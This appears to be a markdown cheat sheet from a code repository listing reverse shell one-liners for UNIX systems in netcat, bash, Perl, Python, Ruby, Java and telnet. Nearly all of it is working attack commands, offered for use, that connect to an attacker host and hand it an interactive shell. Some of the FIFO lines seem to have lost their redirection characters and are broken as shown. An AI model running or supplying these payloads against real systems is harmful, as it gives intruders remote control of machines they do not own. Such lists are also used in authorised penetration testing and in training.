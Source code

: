 ## Reverse Shell One-liners
These are a list of shell one liners which be invoked on most of UNIX systems

For all these below mentioned you should be listening on your attack box 

### 1. Netcat

For old versions of netcat -  

	nc attackerip 4444  -e /bin/sh
	/bin/sh | nc attackerip 4444  

This should work on most modern implementation of nc
	rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p  

If you require to use old versions of netcat you can do so by 
	sudo apt-get install netcat-traditional

### 2. Bash

	bash -i >& /dev/tcp/<attacker ip>/4444 0>&1  

### 3. PERL  
Good ol' PERL, nearly every system has it and is a cornerstone of utility -  
	
    perl -e 'use Socket;$i="127.0.0.1";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### 4. Python

        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### 5. Ruby
	ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'   

### 6. Java

This is a pretty obscure / esoteric method but there might be a chance you might come across using this  (probably during a web app file upload vuln ? )-  

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/127.0.0.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()
    
### 7. Telnet

     rm -f /tmp/p; mknod /tmp/p p && telnet 127.0.0.1 4444 0/tmp/p
     
Or use a bunch of piping
     
    telnet attackerip 4444 | /bin/bash | telnet 127.0.0.1 4444   